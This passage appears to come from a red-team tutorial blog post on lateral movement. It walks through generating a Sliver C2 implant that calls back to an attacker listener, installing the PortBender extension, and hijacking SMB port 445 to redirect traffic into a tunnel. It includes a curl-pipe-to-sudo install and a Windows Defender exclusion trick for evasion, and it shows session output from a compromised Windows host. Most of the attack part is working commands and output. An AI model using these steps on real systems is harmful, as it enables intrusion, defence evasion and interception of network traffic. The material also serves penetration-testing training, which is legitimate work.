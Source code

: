 Let's check if the tunnel works.

![](http://news.baycode.eu/wp-content/uploads/2023/11/27-1.png)

### Port forwarding works, next step is

## TCP hijacking

Now, we need to hijack the SMB connection and redirect the traffic to our tunnel on port 64000. We will use https://github.com/MrAle98/Sliver-PortBender) addon, and execute it on the `10.10.24.100` using another C2 - Sliver https://github.com/BishopFox/sliver. While Havoc C2 is very good, and was a perfect example to demonstrate how C2 works as it's layout is close to a paid framework Cobalt Strike (which is industry standard) - Sliver is another open-source - and more advanced/supported framework as of 2023 that is worth knowing. 

Let's generate the implant.

```
$ curl https://sliver.sh/install | sudo bash
$ wget https://github.com/MrAle98/Sliver-PortBender/releases/download/v0.0.1/SliverPortBender.zip
$ sliver
sliver armory # initialize sliver extension engine
sliver > extensions install /home/kali/lateralmovement/sliver-extension # install extension
sliver > generate --http 10.10.24.9:65530 --save /home/kali/lateralmovement --os windows # generate the agent
sliver > http --lport 65530 # start an http listener on port 65530
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/28-1.png)

After we've uploaded and installed the `WinDivert64.sys` driver, modified our custom '.dll' to include a Sliver implant resource (or added an exception to Windows Defender with the command: `Add-MpPreference -ExclusionPath '<PATH>'` 😉), and executed the implant on the target machine, we can proceed to perform TCP hijacking with `PortBender`.

```
[*] Session 70463f0f RIGHT_KARATE - 127.0.0.1:38870 (SERVICE) - windows/amd64 - Thu, 26 Oct 2023 16:10:50 CEST
sliver > use 70463f0f
[*] Active session RIGHT_KARATE (70463f0f-a561-40a4-8c8b-d503eff67d27)

sliver (RIGHT_KARATE) > portbender redirect 445 64000

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully

sliver (RIGHT_KARATE) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 64000     0
```

